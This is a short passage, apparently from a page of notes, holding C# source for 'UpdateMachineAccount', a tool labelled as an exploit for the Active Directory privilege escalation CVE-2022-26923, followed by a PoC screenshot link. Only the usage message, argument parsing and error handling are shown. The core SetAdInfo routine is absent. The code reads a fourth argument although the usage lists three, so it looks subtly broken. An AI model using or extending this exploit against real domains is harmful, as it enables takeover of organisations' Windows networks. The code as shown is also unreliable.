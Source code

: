 ```// Exploit for Active Directory Domain Privilege Escalation (CVE-2022–26923)
            {
                Console.WriteLine("[!] UpdateMachineAccount - @domchell");
                Console.WriteLine("[!] UpdateMachineAccount.exe <Machine CN> <domain fqdn> <machine hostname>");
                Console.WriteLine("[!] Example:\n\nUpdateMachineAccount.exe \"CN=TyrellLaptop,OU=Workstations,DC=evil,DC=corp\" evil.corp dc.evil.corp\n");
                return;
            }

            string LdapDomain = args[0].Trim();
            string domain = args[1].Trim();
            string dchost = args[3].Trim();

            string objectFilter = "(objectClass=*)";
            try
            {
                SetAdInfo(objectFilter, domain, dchost, LdapDomain);
            }
            catch (Exception e)
            {
                Console.WriteLine("[!] Error occured:");
                Console.WriteLine(e.Message);
            }

        }
    }
}
```


![PoC2.png](../../../_resources/PoC2.png)
